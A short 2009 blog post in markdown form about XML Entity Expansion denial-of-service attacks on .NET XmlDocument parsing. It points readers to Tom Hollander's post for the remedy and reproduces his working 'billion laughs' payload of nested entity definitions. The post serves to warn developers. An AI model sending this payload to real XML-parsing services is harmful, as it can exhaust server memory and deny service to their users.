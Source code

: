 ```yaml
---
title:	"Protecting against XML Entity Expansion attacks"
date:	2009-05-23
author: Steven van Deursen
tags:   [.NET General, Security]
draft:	false
---
```


### Tom Hollander describes on his blog a denial of service attack I never knew the existence of, called XML Entity Expansion attack. Tom explains how to bring a server to its knees when allowing any type of xml document as input and passing it directly to an XmlDocument for parsing.

Tom uses the following XML document of less than 1 KB to demonstrate the attack:

{{< highlight xml >}}
<!DOCTYPE foo [ 
<!ENTITY a "1234567890" > 
<!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;" > 
<!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;" > 
<!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;" > 
<!ENTITY e "&d;&d;&d;&d;&d;&d;&d;&d;" > 
<!ENTITY f "&e;&e;&e;&e;&e;&e;&e;&e;" > 
<!ENTITY g "&f;&f;&f;&f;&f;&f;&f;&f;" > 
<!ENTITY h "&g;&g;&g;&g;&g;&g;&g;&g;" > 
<!ENTITY i "&h;&h;&h;&h;&h;&h;&h;&h;" > 
<!ENTITY j "&i;&i;&i;&i;&i;&i;&i;&i;" > 
<!ENTITY k "&j;&j;&j;&j;&j;&j;&j;&j;" > 
<!ENTITY l "&k;&k;&k;&k;&k;&k;&k;&k;" > 
<!ENTITY m "&l;&l;&l;&l;&l;&l;&l;&l;" > 
]> 
<foo>&m;</foo>
{{< / highlight >}}

See [his post](https://blogs.msdn.com/tomholl/archive/2009/05/21/protecting-against-xml-entity-expansion-attacks.aspx) for more information and the proposed remedy.

## Comments